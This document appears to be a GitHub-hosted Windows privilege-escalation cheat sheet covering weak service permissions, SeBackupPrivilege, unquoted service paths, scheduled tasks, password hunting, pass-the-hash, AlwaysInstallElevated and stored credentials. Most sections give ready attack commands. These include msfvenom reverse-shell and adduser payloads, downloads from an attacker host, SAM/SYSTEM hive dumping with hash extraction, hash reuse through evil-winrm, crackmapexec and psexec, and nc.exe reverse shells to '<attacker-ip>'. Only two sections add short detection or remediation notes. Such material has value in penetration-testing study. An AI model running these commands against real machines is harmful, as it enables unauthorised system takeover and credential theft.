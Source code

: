 #####################################
Windows Privilege Escalation Examples
#####################################

<details>
<summary>Weak Service Permissions</summary>
 <br> 
========================
In Windows, services running as LocalSystem (highest privilege) with non-default or writable executable paths and weak permissions can be exploited for privilege escalation. This document provides detection, exploitation, and remediation steps.

🔍 1. Enumerate Services Running as LocalSystem with Non-Standard Paths
These services might use custom paths (e.g., C:\Users\Public\svc.exe) instead of the protected default (C:\Windows\System32).

✅ PowerShell:

    Get-WmiObject Win32_Service | Where-Object {
    $_.StartName -eq "LocalSystem" -and
    $_.PathName -notlike "C:\Windows\System32*"
    } | Select-Object Name, StartName, PathName

    
✅ WMIC:
cmd

    wmic service get name,startname,pathname | findstr /i "LocalSystem" | findstr /v /i "C:\\Windows\\System32"
<img width="1016" height="237" alt="image" src="https://github.com/user-attachments/assets/b58cd5a7-6d2d-4bba-b200-baa7cc66faee" />
🔐 2. Check Permissions on Service Configuration
Use AccessChk to determine whether a user can start, stop, configure, or modify a service.

✅ Command:
cmd

    .\accesschk64.exe /accepteula -uwcqv user servicename
Look for permissions like:

Permission	Meaning
SERVICE_ALL_ACCESS	Full control
SERVICE_CHANGE_CONFIG	Can change service binary path
WRITE_DAC / WRITE_OWNER	Can escalate to full control
GENERIC_WRITE / GENERIC_ALL	Equivalent to full control
<img width="939" height="407" alt="image" src="https://github.com/user-attachments/assets/e4ea7ead-9a28-4752-9e52-74c28bc09e8b" />

📂 3. Identify Writable Service Executables
✅ Export Executable Paths:

    for /f "tokens=2 delims='='" %a in ('wmic service list full ^| find /i "pathname" ^| find /v /i "system32"') do @echo %a >> C:\Windows\Temp\services.txt
✅ If wmic is not available:
cmd

    sc query state= all | findstr "SERVICE_NAME:" >> servicenames.txt
    FOR /F "tokens=2 delims= " %i in (servicenames.txt) DO @echo %i >> services.txt
    FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
✅ Check Permissions:
cmd

    for /f "delims=" %a in (C:\Windows\Temp\services.txt) do accesschk.exe /accepteula -qv "%a" >> accesschk.txt
Or use icacls/cacls:

    for /f "delims=" %a in (C:\Windows\Temp\services.txt) do icacls "%a" >> icacls.txt
Look for:

Symbol	Meaning
(F)	Full Access
(M)	Modify Access
(W)	Write Access
(WDAC)	Write DACL
(WO)	Write Owner

⚙️ 4. Exploitation Steps
✅ 4.1 Replace the Service Executable
Generate a reverse shell payload (Metasploit):

bash

    msfvenom -p windows/powershell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f exe -o reverse_priv.exe
Host it:

bash

    python3 -m http.server 8999
Transfer to target:

powershell

    wget http://<attacker_ip>:8999/reverse_priv.exe -o reverse_priv.exe
Overwrite service binary:

powershell

    copy reverse_priv.exe "C:\Path\To\Service.exe"
✅ 4.2 Start the Service
c

    sc start <service>
Or:

cmd

    net start <service>
⚡ 5. Writable Service Object Exploitation
✅ Find Writable Service Objects
cmd

    accesschk.exe /accepteula -uwcqv "Authenticated Users" *
✅ Update Service Binary Path
cmd

    sc config <service> binPath= "C:\Path\To\reverse_priv.exe"
Remove dependencies if blocking:

cmd

    sc config <service> depend= ""
Change service start mode to manual:

cmd

    sc config <service> start= demand
Update service to run as SYSTEM:

c

    sc config <service> obj= ".\LocalSystem" password= ""
✅ Start/Stop Service:
cmd

    sc stop <service>
sc start <service>
Or:

cmd

    net stop <service>
    net start <service>
🧪 6. Validate Exploitability
powershell

    Get-WmiObject Win32_Service -Filter "Name='<service>'" |Select-Object Name, DisplayName, StartMode, State, StartName, PathName
<img width="1064" height="161" alt="image" src="https://github.com/user-attachments/assets/6fdbbea7-d56e-4cb4-80a3-4f9016f995c8" />
    
🤖 7. Automated Enumeration
✅ SharpUp
Use SharpUp.exe for automated privilege escalation checks.

cmd

    SharpUp.exe --services
    or: SharpUp.exe audit
 <img width="974" height="482" alt="image" src="https://github.com/user-attachments/assets/b36466e1-923a-4ddb-8188-bcfb99ac4c76" />
   
✅ Summary of Exploit Steps
Step	Description
🔍 1	Find services running as LocalSystem with writable paths
🔐 2	Check if current user can change or control the service
💣 3	Replace binary with malicious payload
▶️ 4	Restart or trigger the service to execute payload
⚡ 5	Get SYSTEM-level shell

🔐 Remediation Checklist
✅ Always install services in C:\Windows\System32

✅ Set tight permissions using sc sdset or GPO

✅ Regularly audit services using:

 Sysinternals AccessChk

 PowerUp / SharpUp

✅ Enable AppLocker / Software Restriction Policies

✅ Monitor service creation/modification with Sysmon

</details>

<details>
<summary>SeBackupPrivilege</summary>
 <br> 
🔑 What is SeBackupPrivilege?
SeBackupPrivilege is a special Windows permission intended for backup operations.

It allows a user to bypass file ACLs and read any file on the system — even highly sensitive ones like:

C:\Windows\System32\config\SAM

C:\Windows\System32\config\SYSTEM

Attackers can abuse this to extract password hashes and escalate privileges.

🔍 Step 1: Check for SeBackupPrivilege
After getting access (e.g., through Evil-WinRM), check assigned privileges:

powershell

    whoami /priv
   <img width="923" height="339" alt="image" src="https://github.com/user-attachments/assets/18ee9197-db13-4739-b7cf-69ffa64bdf96" />

✅ Look for SeBackupPrivilege in the output.

📁 Step 2: Dump Registry Hives
Create a Temp Directory and Dump SAM & SYSTEM
powershell

    cd C:\
    mkdir Temp
    reg save hklm\sam C:\Temp\sam
    reg save hklm\system C:\Temp\system
 <img width="766" height="416" alt="image" src="https://github.com/user-attachments/assets/5f011469-d495-42eb-8b76-fe2af58a191e" />
   
📥 Step 3: Transfer Files to Kali
Use Evil-WinRM's built-in download command:

powershell

    cd Temp
    download sam
    download system
 <img width="563" height="298" alt="image" src="https://github.com/user-attachments/assets/178f145f-cb49-4cb4-9f82-6e1e424d6658" />
   
🔓 Step 4: Extract Hashes on Kali
🐍 Option 1: Using PyPyKatz
bash

    pypykatz registry --sam sam system
✅ This will output NTLM hashes like:
<img width="1021" height="296" alt="image" src="https://github.com/user-attachments/assets/cf46c206-5e73-4c69-ba4b-3ab653fe5069" />


Administrator:500:aad3b435b51404eeaad3b435b51404ee:5e0375cf8e440aa58a809d57edd78996::
🧰 Option 2: Using Impacket’s secretsdump.py

    cd ~/impacket
    python3 -m venv impacket-env
    source impacket-env/bin/activate
    secretsdump.py -system /home/kali/system -sam /home/kali/sam LOCAL
 <img width="1056" height="320" alt="image" src="https://github.com/user-attachments/assets/9fa97eb3-93ba-496e-9418-ecb08ed1bb24" />
   
🚪 Step 5: Lateral Movement / Privilege Escalation
Use the extracted NTLM hash to pivot or escalate.

🛠️ Option 1: Evil-WinRM (Pass-the-Hash)

evil-winrm -i <target-ip> -u <domain\user> -H <NTLM-hash>
Example:

    evil-winrm -i 192.168.216.130 -u corp\administrator -H 5e0375cf8e440aa58a809d57edd78996
🛠️ Option 2: CrackMapExec

    crackmapexec smb <target-ip> -u Administrator -H <NTLM-hash>
🛠️ Option 3: PsExec (from Impacket)

    psexec.py Administrator@<target-ip> -hashes :<NTLM-hash>
🧑‍💼 Bonus: Enumerate Users (Optional)
If you need to look up domain users on a DC:

powershell

    Get-ADUser -Filter * | Select-Object Name, SamAccountName
Requires ActiveDirectory module, usually available on domain controllers.

🔚 Summary
Step	Action
1️⃣	Check if user has SeBackupPrivilege
2️⃣	Dump SAM and SYSTEM hives using reg save
3️⃣	Download files using evil-winrm
4️⃣	Extract hashes with pypykatz or secretsdump.py
5️⃣	Reuse hashes with Evil-WinRM, CrackMapExec, or PsExec for lateral movement or privilege escalation

 </details>
<details>
<summary>Unquoted Service Pathss</summary>
 <br> 

----------------------

Find unquoted service paths:

.. code-block:: none

    wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """

If the unquoted service path is :code:`C:\Program Files\path to\service.exe`, you can place a binary in any of the following paths:

.. code-block:: none

    C:\Program.exe
    C:\Program Files.exe
    C:\Program Files\path.exe
    C:\Program Files\path to.exe
    C:\Program Files\path to\service.exe

</details>
<details>
<summary>Scheduled Task/Job</summary>
 <br> 
An attacker can exploit Windows Task Scheduler to schedule malicious programs for initial or recurrent execution. For persistence, the attacker typically uses Windows Task Scheduler to launch applications at system startup or at predefined intervals. Furthermore, the attacker executes remote code under the context of a specified account to achieve Privilege Escalation.

Task Scheduler
 You can easily schedule an automatic job using the Task Scheduler service. When you utilize this service, you set up any program to run at a specific date and time that suits your needs. Subsequently, Task Scheduler evaluates the defined time or event criteria and runs the task once those conditions are met.

Abusing Schedule Task/Job
An attacker can escalate privileges by exploiting Schedule Task/Job. Following an initial foothold, we can query to obtain the list for the scheduled task.

    schtasks /query /fo LIST /V
This helps an attack to understand which application is attached to execute Job at what time.
 
 To obtain a reverse shell as NT Authority SYSTEM, first create a malicious EXE file that a scheduled task can execute. Using Msfvenom, we then generate the EXE file and inject it into the target system accordingly.

    msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.3 lport=8888 -f exe > shell.exe
To abuse the scheduled Task, the attacker will either modify the application by overwriting it or may replace the original file from the duplicate. To insert a duplicate file in the same directory, we rename the original file as a file.bak.

Then downloaded malicious file.exe in the same directory with the help of wget command.
   
    powershell wget 192.168.1.3/shell.exe –o file.exe
Once the duplicate file.exe is injected in the same directory then, the file.exe will be executed automatically through Task Scheduler. As attackers make sure that netcat listener must be at listening mode for obtaining reverse connection for privilege shell.

    nc -lvp 8888
    whoami /priv

Detection
Tools such as Sysinternals[https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns] Autoruns can detect system changes like showing presently scheduled jobs.
Tools like TCPView[https://docs.microsoft.com/en-us/sysinternals/downloads/tcpview] & Process Explore[https://learn.microsoft.com/en-us/sysinternals/downloads/process-explorer] may help to identify remote connections for suspicious services or processes.
View Task Properties and History: To view a task’s properties and history by using a command line
Schtasks /Query /FO LIST /V

Enable the “Microsoft-Windows-TaskScheduler/Operational” configuration inside the event logging service to report scheduled task creation and updates.
</details>
<details>
<summary>Cleartext Passwords</summary>
 <br> 

===================

Find passwords in arbitrary files:

.. code-block:: none

    findstr /si password *.txt *.xml *.ini

Find strings in filenames:

.. code-block:: none

    dir /s *pass* == *cred* == *vnc* == *.config*

Find passwords in all files:

.. code-block:: none

    findstr /spin "password" *.*

Common files which contain passwords:

.. code-block:: none

    type c:\sysprep.inf
    type c:\sysprep\sysprep.xml
    type c:\unattend.xml
    type %WINDIR%\Panther\Unattend\Unattended.xml
    type %WINDIR%\Panther\Unattended.xml
    dir c:*vnc.ini /s /b
    dir c:*ultravnc.ini /s /b
    dir c:\ /s /b | findstr /si *vnc.ini

Search for passwords in the registry:

.. code-block:: none

    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
    reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
    reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

</details>
<details>
<summary>Passing the Hash</summary>
 <br> 
================

The following commands can be used to dump password hashes:

.. code-block:: none

    wce32.exe -w
    wce64.exe -w
    fgdump.exe

Remote
------

Pass the hash remotely to gain a shell:

.. code-block:: none

    pth-winexe -U <domain>/<username>%<hash> //<target-ip> cmd

Sometimes you may need to reference the target by its hostname (add an entry to /etc/hosts to make it resolve):

.. code-block:: none

    pth-winexe -U <domain>/<username>%<hash> //<target-hostname> cmd

Alternative:

.. code-block:: none

    export SMBHASH=<hash>
    pth-winexe -U <domain>/<username>% //<target-ip> cmd

Local
-----

Pass the hash locally using runas:

.. code-block:: none

    C:\Windows\System32\runas.exe /env /noprofile /user:<username> <hash> "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"

Pass the hash locally using PowerShell:

.. code-block:: none

    secpasswd = ConvertTo-SecureString "<hash>" -AsPlainText -Force
    mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
    computer = "<hostname>"
    [System.Diagnostics.Process]::Start("C:\Windows\Temp\nc.exe","<attacker-ip> 53 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)

Pass the hash locally using psexec:

.. code-block:: none

    psexec64 \\<hostname> -u <username> -p <hash> -h "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"

</details>
<details>
<summary>Loopback Services</summary>
 <br> 
=================

Search for services listening on the loopback interface:

.. code-block:: none

    netstat -ano | findstr "LISTEN"

Use plink.exe to forward the loopback port to a port on our attacking host (via SSH):

.. code-block:: none

    plink.exe -l <attacker-username> -pw <attacker-password> <attacker-ip> -R <attacker-port>:127.0.0.1:<target-port>

</details>
<details>
<summary>AlwaysInstallElevated</summary>
 <br> 
=====================

AlwaysInstallElevated is a setting that allows non-privileged users the ability to run Microsoft Windows Installer Package Files (MSI) with elevated (SYSTEM) permissions.

Both the following registry values must be set to "1" for this to work:

.. code-block:: none

    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

Create a malicious MSI:

.. code-block:: none

    msfvenom -p windows/adduser USER=pwned PASS=P@ssw0rd -f msi -o evil.msi

Use msiexec to run the malicious MSI:

.. code-block:: none

    msiexec /quiet /qn /i C:\evil.msi

</details>
<details>
<summary>Stored Credentials</summary>
 <br> 

==================

If there are stored credentials, we can run commands as that user:

.. code-block:: none

    $ cmdkey /list

    Currently stored credentials:

    Target: Domain:interactive=PWNED\Administrator
    Type: Domain Password
    User: PWNED\Administrator

Execute commands by using runas with the /savecred argument. Note that full paths are generally needed:

.. code-block:: none


    runas /user:PWNED\Administrator /savecred "C:\Windows\System32\cmd.exe /c C:\Users\Public\nc.exe -nv <attacker-ip> <attacker-port> -e cmd.exe"

   </details>
